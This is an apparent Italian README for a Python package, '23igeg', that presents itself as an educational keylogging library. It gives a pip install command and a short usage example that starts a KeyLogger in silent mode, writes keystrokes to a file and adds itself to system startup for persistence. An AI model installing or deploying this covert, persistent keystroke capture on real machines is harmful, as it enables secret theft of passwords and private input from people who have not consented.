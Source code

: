 # 23igeg

**23igeg** è una libreria Python dimostrativa per il keylogging, creata a scopo informativo e per la ricerca accademica sulla sicurezza informatica.

⚠️ **Attenzione**: questo software è destinato esclusivamente all'uso in ambienti controllati e a fini didattici.

## Installazione

```bash
pip install 23igeg
```

## Uso base

```python
from igeg.logger import KeyLogger

logger = KeyLogger(logfile="log.txt", silent=True)
logger.add_to_startup()
logger.start()
```
